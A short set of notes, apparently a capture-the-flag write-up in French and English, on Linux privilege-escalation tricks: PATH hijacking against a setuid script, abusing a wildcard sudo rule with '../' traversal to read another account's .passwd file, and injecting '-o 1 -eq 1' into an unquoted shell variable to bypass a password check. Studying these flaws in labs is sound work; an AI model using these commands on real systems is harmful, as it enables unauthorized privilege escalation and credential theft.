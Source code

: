 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

'''bash 
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
'''

### Unquoted variables

Solution

'''
./wrapper "42 -o 1 -eq 1" 
'''

Explanation
This condition needs to be passed (line 18):
'''
if test $PASS -eq ${1}; then
'''

Note that `${1}` is unquoted!
Hence, it will be "split" before being passed to the `test` command.

So, we need:

Something that is an integer to make a valid comparison to $PASS;
A condition that is always true: `1 -eq 1`.
And the condition will be split to become:
'''
$PASS -eq 42 -o 1 -eq 1
'''

Sources
Split/Glob effect on unquoted variables: https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells#answer-171347;
OR operation for the test command: https://tldp.org/LDP/abs/html/comparison-ops.html#CCOMPARISON1 .
